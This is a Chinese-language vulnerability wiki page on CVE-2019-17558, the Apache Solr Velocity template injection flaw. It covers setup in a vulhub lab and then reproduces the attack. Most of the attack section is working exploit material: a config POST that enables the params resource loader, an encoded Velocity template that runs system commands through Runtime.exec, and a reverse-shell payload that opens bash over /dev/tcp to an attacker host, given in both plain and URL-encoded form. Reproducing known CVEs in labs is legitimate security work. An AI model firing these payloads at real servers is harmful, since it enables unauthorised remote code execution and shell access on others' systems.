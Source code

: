 ```yaml
---
title: Apache Solr Velocity模板远程执行 CVE-2019-17558
---
```


# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述
2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把params.resource.loader.enabled设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本
<a-checkbox checked>Apache Solr 5.x 至 8.2.0</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

创建一个solr核心test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现
打开后获取 Core 信息

![eba902b3-616d-4c1d-b357-2ab754df6d8b](/assets/PeiQi-Wiki/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)

访问Core的config配置信息时，通过POST请求把`{% em type="red" %}params.resource.loader.enabled{% endem %}`设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

设置`params.resource.loader.enabled为True`

![fde10f99-354f-45bf-85ab-9abab467f8c1](/assets/PeiQi-Wiki/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

再使用POC造成命令执行

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220307152918862](/assets/PeiQi-Wiki/img/image-20220307152918862.png)

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC需要`Urlencoding`进行编码才能绕过

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

